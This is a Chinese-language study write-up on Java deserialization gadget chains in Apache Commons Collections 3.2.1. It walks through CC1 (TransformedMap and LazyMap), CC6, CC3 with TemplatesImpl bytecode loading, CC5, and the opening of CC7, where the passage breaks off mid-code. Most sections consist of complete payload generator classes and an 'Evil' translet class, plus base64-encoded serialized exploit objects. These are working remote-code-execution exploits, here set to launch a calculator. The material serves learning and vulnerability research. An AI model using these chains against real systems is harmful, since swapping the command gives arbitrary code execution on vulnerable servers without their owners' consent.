## Table of contents

## CC总结

了解CC之前建议从URLDNS的链子开始，更加简短
个人对Java反序列化利用链构造的一些理解：

* 链子包含起始点，目的点，和中间过程(好像污点分析)
* Java反序列化利用链的构造过程更像是一个倒推的过程
* 首先找到目的点（即可以RCE的地方），然后找那个位置可以调用这个点
* 一点点的向上追，直接找到readObject

```java
import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;
// 这两部分代码放到最后了
// 从ysoserial抄的
```


### CC1

CC1来说有两个版本，一个是TransformedMap，一个是LazyMap，两个版本的链子差别不大，看下方详解

jdk版本：8u65\
jdk推荐下载地址：[http://www.codebaoku.com/jdk/jdk-index.html](http://www.codebaoku.com/jdk/jdk-index.html)\
CC版本：3.2.1

#### TransformedMap版本

涉及到Transformer修饰Map和几个Transformer

##### Transformer

关于Transformer是什么，大家执行了解，GPT给出的解释是 Transform 是 Commons Collections 中用于对象转换的核心概念。

关于CC需要关注transform方法，整个过程中对transform方法的调用是重点

1.  ```java
    InvokerTransformer的Transform
    ```

    

    关于反射的知识点就不做讲解了，执行input对象的iMethodName方法
2.  ```java
    ConstantTransformer
    ```

    返回iConstant

    

    这个iConstant是ConstantTransformer初始化时传入的\


    


3.  ```
    ChainedTransformer
    ```


    

    ChainedTransformer里边包含的是一个Transformer数组，它的transform就是用前一个（第一个除外）transformer的transform方法作为下一个调用的参数


##### 一个简单的利用Transformer进行命令执行的样例

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class main {
    public static void main(String[] args) {
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -na Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformer);
        transformerChain.transform("aa");
    }
}
```


现在我们知道了当调用了构造的ChainedTransformer的transform可以进行RCE，那么怎么调用呢

##### Transformer修饰Map



首先看一下Transformer接口，里边包含了transform方法，CC1或者说关于Transform的链子的其中一个重点就是某个方法触发了transform（至于为什么，可以看下边的transform介绍）

IDEA FindUsage（因为是复现，所以直接看CC的map包中的调用）


首先关注TransformedMap，LazyMap和DefaultedMap下文再聊

TransformedMap的transformKey和transformValue的调用都是在decorate或者map进行put时进行调用的，和这条链子关系不大，主要看checkSetValue


可以看到checkSetValue是直接调用了valueTransformer的transform，那么现在有两个问题；

1. 怎么给valueTransformer赋值
2. 寻找怎么调用checkSetValue

##### 赋值valueTransformer

查看整个类可以发现，赋值的地方在构造函数中，可是构造函数是protected状态，那就需要找到谁调用了构造函数或者使用反射调用，类中decorate对构造函数进行了调用


类中还有一个public对构造函数进行了调用，但是哪个类会提前调用，修改payload，报错

所以剩下的问题就是谁调用了valueTransformer

#### 调用checkSetValue

checkSetValue也是一个protected，但是我们找到了MapEntry调用了checkSetValue，它和TransformedMap是同一个父类，可以调用checkSetValue


下一步就是寻找谁调用类MapEntry的setValue，或者谁调用了AbstractMaoEntryDecorator的setValue

在AnnotationInvocationHandler的readObject中发现了对Map.Entry对setValue调用

AbstractMaoEntryDecorator就是实现了


到这CC1的TransformedMap版本算是结束了

Payload（隐藏了导入包，序列化反序列化函数的具体实现）

```java
public class CC1TransformedMap {


    public static void main(String[] args) throws Exception{

        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -na Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformer);
        Map innerMap = new HashMap();
        innerMap.put("value","xxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
//        outerMap.put("test", "1");
        System.out.println("Hello World!");
        Class Anno = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = Anno.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Retention.class,outerMap);


        byte[] ser = serialize(o);
        String b64 = Base64.getEncoder().encodeToString(ser);
        System.out.println(b64);
//        String b64 = ""


        deserialize(Base64.getDecoder().decode(b64));


    }
}
```

#### LazyMap版本

和上一个版本不一样的地点在于触发点不一样，上一个版本的使用的是TransformedMap.decorate

和探索TransformedMap一样，我们探索一下LazyMap，同样是从这张图片开始


map中不包含需要get的key就可以调用transform，同样我们需要解决两个问题，谁调用了get和赋值factory



赋值和上一个版本一样，使用decorate，不多赘述


而get调用点很多，使用find usage不现实

公开的方式是使用的Proxy，动态代理的方式，触发AnnotationInvocationHandler的invoke方法继续向下的

至于Proxy动态代理，当你调用通过 Proxy.newProxyInstance 创建的代理对象上的方法时，代理对象会将方法调用委托给 InvocationHandler 的 invoke 方法

所以直接看 AnnotationInvocationHandler的invoke方法

而其中就有


memberValues.get就是我们构造的LazyMap

到此LazyMap也结束了

Payload

```java
package Payload.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;

import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;

public class CC1LazyMap {
    public static void main(String[] args) throws Exception {

        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -na Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformer);
        Map innerMap = new HashMap();
        innerMap.put("aaa","xxx");
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
//        outerMap.put("test", "1");
        System.out.println("Hello World!");
        Class Anno = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = Anno.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        InvocationHandler o = (InvocationHandler)constructor.newInstance(Retention.class,outerMap);

        Map ProxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},o);

        Object b = constructor.newInstance(Retention.class,ProxyMap);

        byte[] ser = serialize(b);
//        String b64 = Base64.getEncoder().encodeToString(ser);
        String b64 = "rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYmVyVmFsdWVzdAAPTGphdmEvdXRpbC9NYXA7TAAEdHlwZXQAEUxqYXZhL2xhbmcvQ2xhc3M7eHBzfQAAAAEADWphdmEudXRpbC5NYXB4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcQB+AABzcgAqb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLm1hcC5MYXp5TWFwbuWUgp55EJQDAAFMAAdmYWN0b3J5dAAsTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAtW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHB1cgAtW0xvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuVHJhbnNmb3JtZXI7vVYq8dg0GJkCAAB4cAAAAARzcgA7b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAEWphdmEubGFuZy5SdW50aW1lAAAAAAAAAAAAAAB4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuSW52b2tlclRyYW5zZm9ybWVyh+j/a3t8zjgCAANbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAtpTWV0aG9kTmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXVyABJbTGphdmEubGFuZy5DbGFzczurFteuy81amQIAAHhwAAAAAHQACWdldE1ldGhvZHVxAH4AHgAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+AB5zcQB+ABZ1cQB+ABsAAAACcHVxAH4AHgAAAAB0AAZpbnZva2V1cQB+AB4AAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAbc3EAfgAWdXEAfgAbAAAAAXQAE29wZW4gLW5hIENhbGN1bGF0b3J0AARleGVjdXEAfgAeAAAAAXEAfgAjc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAADHcIAAAAEAAAAAF0AANhYWF0AAN4eHh4eHZyAB5qYXZhLmxhbmcuYW5ub3RhdGlvbi5SZXRlbnRpb24AAAAAAAAAAAAAAHhwcQB+ADc=";
        System.out.println(b64);

        deserialize(Base64.getDecoder().decode(b64));


    }
}
```

***


### CC6

因为在jdk8u71之后对漏洞点进行了修复（主要是对类AnnotationInvocationHandler的readObject方法中的触发点进行了修改）所以采用了新的触发方式

CC6说是最好用的CC链子，只要求CC版本，不要求JDK版本，CC6的后半段依旧是使用的LazyMap的get方法去触发transform，变动的地方在前半段···

```
HashMap#readObject-Hashcode -> 
    TiedMapEntry#hashCode() -> 
        TiedMapEntry#getValue() -> 
            LazyMap#get() ....
```

了解URLDNS的应该知道HashMap的readObject会调用Hashcode

完整代码不放了，在readObject最后的putVal会调用hash(key)，里边会调用key.hashCode()


所以给hashMap赋值为TiedMapEntry从而调用TiedMapEntry#hashCode()，这样会调用getValue()里边就有map.get




所以TiedMapEntry的map变量放入构造好的LazyMap

### 问题

基本上就完成了整个链子，但是有一个问题，LazyMap的get调用transform前会判断当前key存不存在，不存在才能调用，如果我们正常将TiedMapEntry的map变量放入构造好的LazyMap，map.put的时候会把key压入LazyMap，解决方法也很简单，直接remove掉



在map.put中也会对TiedMapEntry进行hash操作，从而造成一次代码的执行，可以通过操作解决，但是我觉得问题不是很大（可以put之前把factory的Lazymap换掉，put之后在通过反射改掉）


#### payload

```java
package Payload.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;

public class CC6 {
//    HashMap.readObject-Hashcode
//  TiedMapEntry.hashCode()
//            TiedMapEntry.getValue()
//            LazyMap.get()
//                ....
    public static void main(String[] args) throws Exception {
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -na Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformer);
        Map innerMap = new HashMap();
//        innerMap.put("aaa","xxx");
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "key");
        HashMap map = new HashMap<Object, Object>();
        map.put(tiedMapEntry, "valuevalue");
        outerMap.remove("key");


        byte[] ser = serialize(map);
        String b64 = Base64.getEncoder().encodeToString(ser);
        System.out.println(b64);

//        String b64 = "rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IANG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwRW50cnmKrdKbOcEf2wIAAkwAA2tleXQAEkxqYXZhL2xhbmcvT2JqZWN0O0wAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwdAADa2V5c3IAKm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5tYXAuTGF6eU1hcG7llIKeeRCUAwABTAAHZmFjdG9yeXQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNoYWluZWRUcmFuc2Zvcm1lcjDHl+woepcEAgABWwANaVRyYW5zZm9ybWVyc3QALVtMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwdXIALVtMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLlRyYW5zZm9ybWVyO71WKvHYNBiZAgAAeHAAAAAEc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5Db25zdGFudFRyYW5zZm9ybWVyWHaQEUECsZQCAAFMAAlpQ29uc3RhbnRxAH4AA3hwdnIAEWphdmEubGFuZy5SdW50aW1lAAAAAAAAAAAAAAB4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuSW52b2tlclRyYW5zZm9ybWVyh+j/a3t8zjgCAANbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAtpTWV0aG9kTmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXVyABJbTGphdmEubGFuZy5DbGFzczurFteuy81amQIAAHhwAAAAAHQACWdldE1ldGhvZHVxAH4AGwAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+ABtzcQB+ABN1cQB+ABgAAAACcHVxAH4AGwAAAAB0AAZpbnZva2V1cQB+ABsAAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAYc3EAfgATdXEAfgAYAAAAAXQAE29wZW4gLW5hIENhbGN1bGF0b3J0AARleGVjdXEAfgAbAAAAAXEAfgAgc3EAfgAAP0AAAAAAAAx3CAAAABAAAAAAeHh0AAp2YWx1ZXZhbHVleA==";
//        deserialize(Base64.getDecoder().decode(b64));
    }

}
```

### CC3

CC3主要是更改的后半部分的Transformer部分，因为黑名单的引入，不让对部分的Transformer进行反序列化了

这部分需要动态类加载的知识，主要是从bytecode到类 defineClass这一部分

可以看ClassLoader部分知识

[https://www.baeldung.com/java-classloaders]

中文可以看JavaSec

[https://www.javasec.org/]

CC3使用另一个类调用任意方法

com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter

这个类的构造⽅法中调⽤了 (TransformerImpl) templates.newTransformer()

然后我们可以结合FastJson中的 TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()

TemplatesImpl类进行defineClass 来加载字节码，从而加载任意类

需要注意的是 TemplatesImpl 加载的类有特殊需求 需要时AbstractTranslet


因为会调用transform，所以从这部分开始看


这里有一个新的Transformer，他的transform方法是使用反射创建一个对象


到这里我们知道他创建了一个对象，按照上文来说，看看TrAXFilter这个怎么利用，按照FastJson的链子来看，不做文字介绍了，只贴代码






前半部分只要使用能出发transform都都可以包括CC1的两个和CC6 这就是三条（需要注意 CC6 这一块要改一下，因为这里如果提前执行payload会报错，要改成不会提前执行的）

byteCode的获取 首先编写恶意类，idea随便运行一下，就会在target目录中有对应class文件生成

```java
package Payload.CC;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public Evil() throws IOException {
        Runtime.getRuntime().exec("open -na Calculator");
    }
}
```

#### Payload

```java
package Payload.CC;
//CC6+CC3
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;

public class CC6TrAXFilter {
    //    HashMap.readObject-Hashcode
//	TiedMapEntry.hashCode()
//            TiedMapEntry.getValue()
//            LazyMap.get()
//                ....
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("/Users/gh03t/Documents/code/java/JavaSerStudy/target/classes/Payload/CC/Evil.class"));
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer( new Class[] { Templates.class }, new Object[] { obj })
        };
        Transformer transformerChain = new ChainedTransformer(transformer);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "key");
        HashMap map = new HashMap<Object, Object>();
        map.put(tiedMapEntry, "valuevalue");

        outerMap.remove("key");
        Class lazyMap = LazyMap.class;
        Field factory = lazyMap.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(outerMap,transformerChain);

//        byte[] ser = serialize(map);
//        String b64 = Base64.getEncoder().encodeToString(ser);
//        System.out.println(b64);

        String b64 = "rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IANG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwRW50cnmKrdKbOcEf2wIAAkwAA2tleXQAEkxqYXZhL2xhbmcvT2JqZWN0O0wAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwdAADa2V5c3IAKm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5tYXAuTGF6eU1hcG7llIKeeRCUAwABTAAHZmFjdG9yeXQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNoYWluZWRUcmFuc2Zvcm1lcjDHl+woepcEAgABWwANaVRyYW5zZm9ybWVyc3QALVtMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwdXIALVtMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLlRyYW5zZm9ybWVyO71WKvHYNBiZAgAAeHAAAAACc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5Db25zdGFudFRyYW5zZm9ybWVyWHaQEUECsZQCAAFMAAlpQ29uc3RhbnRxAH4AA3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAPm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5JbnN0YW50aWF0ZVRyYW5zZm9ybWVyNIv0f6SG0DsCAAJbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAXNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzcQB+ABVMAAVfbmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAF1cgACW0Ks8xf4BghU4AIAAHhwAAAFS8r+ur4AAAA0ACwKAAYAHgoAHwAgCAAhCgAfACIHACMHACQBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAEUxQYXlsb2FkL0NDL0V2aWw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACUBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgcAJgEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMABkAGgcAJwwAKAApAQATb3BlbiAtbmEgQ2FsY3VsYXRvcgwAKgArAQAPUGF5bG9hZC9DQy9FdmlsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAPAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABAAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAIACgAAAA4AAwAAABUABAAWAA0AFwALAAAADAABAAAADgAMAA0AAAASAAAABAABABsAAQAcAAAAAgAdcHQAEkhlbGxvVGVtcGxhdGVzSW1wbHB3AQB4dXIAEltMamF2YS5sYW5nLkNsYXNzO6sW167LzVqZAgAAeHAAAAABdnIAHWphdmF4LnhtbC50cmFuc2Zvcm0uVGVtcGxhdGVzAAAAAAAAAAAAAAB4cHNxAH4AAD9AAAAAAAAMdwgAAAAQAAAAAHh4dAAKdmFsdWV2YWx1ZXg=";
        deserialize(Base64.getDecoder().decode(b64));
    }

}

```

### CC5

一个新的触发LazyMap.get的方法 后边可以接正常的invokertransfromer或者类加载的transform

主要是对于前半部分的变动（其实后半部分可以看作是CC6的）

BadAttributeValueExpException类的readObject作为开始，TiedMapEntry.toString TiedMapEntry.getVal

valObj其实就是val变量，具体原因等我写readObject解读



也就是BadAttributeValueExpException.val = CC6的TiedMapEntry

构造BadAttributeValueExpException时，不能在构造方法中直接给val赋值，会被转为字符串，所以反射赋值

#### payload

```java
package Payload.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;

public class CC5 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -na Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformer);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "key");

        Object obj = new BadAttributeValueExpException(null);
        Class clazz = obj.getClass();
        Field val = clazz.getDeclaredField("val");
        val.setAccessible(true);
        val.set(obj,tiedMapEntry);

        byte[] ser = serialize(obj);
        String b64 = Base64.getEncoder().encodeToString(ser);
        System.out.println(b64);

        deserialize(Base64.getDecoder().decode(b64));
    }
}
```

### CC7&#x20;

同CC5一样是新的触发LazyMap.get方法

Hashtable.readObject - > Hashtable.reconstitutionPut - > AbstractMap.equals - > LazyMap.get


```java
// AbstractMap.equals
public boolean equals(Object o) {
    if (o == this)
        return true;

    if (!(o instanceof Map))
        return false;
    Map<?,?> m = (Map<?,?>) o;
    if (m.size() != size())
        return false;

    try {
        Iterator<Entry<K,V>> i = entrySet().iterator();
        while (i.hasNext()) {
            Entry<K,V> e = i.next();
            K key = e.getKey();
            V value = e.getValue();
            if (value == null) {
                if (!(m.get(key)==null &#x26;&#x26; m.containsKey(key)))
                    return false;
            } else {
